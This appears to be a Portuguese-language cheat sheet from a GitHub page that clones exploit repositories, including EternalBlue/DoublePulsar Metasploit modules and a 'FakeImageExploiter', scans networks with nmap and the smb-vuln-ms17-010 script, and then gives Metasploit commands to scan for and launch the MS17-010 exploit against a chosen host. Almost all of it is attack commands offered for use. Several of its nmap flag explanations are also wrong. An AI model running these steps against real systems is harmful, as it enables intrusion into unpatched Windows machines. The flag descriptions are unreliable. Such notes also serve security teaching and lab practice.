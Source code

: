 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

git clone https://github.com/vaamonde/Eternalblue-Doublepulsar-Metasploit

git clone https://github.com/vaamonde/FakeImageExploiter

Verificar versão do NMAP:<br>	
nmap --version<br>

Manual do NMAP<br>
man nmap<br>
				
nmap -O -A -sV 10.26.46.0/24<br>
-O = detecção do Sistema Operacional<br>
-A = detecção do Sistema Operacional e Versão<br>
-sV = detecção do Sistema Operacional e Versão<br>

nmap -sS 10.26.46.45/24<br>
-sS = detecção de portas TCP<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>
-d = habilita a Debug (log detalhado, pode ir até a opção 9)<br>
-sC = habilitar o rastreamento de scan de portas<br>
-p = número da porta a rastrear (445 - Microsoft-df - SMB/CIFS)<br>
--open = verificar somente portas abertas<br>
--max-hostgroup = número máximo de grupos para o scaneamento<br>
--script = indicar script remoto para o scan<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Reload dos Exploit		reload_all<br>
Acessar o Modo Scan:<br>	use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:	<br>	use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
